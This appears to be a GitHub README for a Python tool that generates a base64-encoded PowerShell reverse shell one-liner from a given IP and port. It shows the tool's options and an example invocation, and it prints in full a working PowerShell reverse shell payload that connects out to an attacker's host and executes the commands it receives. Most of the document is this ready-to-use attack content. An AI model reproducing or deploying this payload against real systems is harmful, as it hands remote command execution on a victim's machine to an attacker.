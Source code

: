 # psh_reverse_OneLine
Generate the command to make a powershell revershell (the one liner encoded in base64)

manual:

	--help or -h	print help manual
 
	--ip or -i	specify IP
 
	--port or -p	specify port
 
Example:

	python3 psh_reverse_OneLine.py -i 192.168.1.2 -p 4444

![Screenshot_20231011_232617](https://github.com/toto22222/psh_reverse_OneLine/assets/104328855/3c439b84-6da4-4947-bd4e-095009622eee)

FYI, the powershell reverse shell one liner code as below:

	$client = New-Object System.Net.Sockets.TCPClient("<your IP>", <your port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

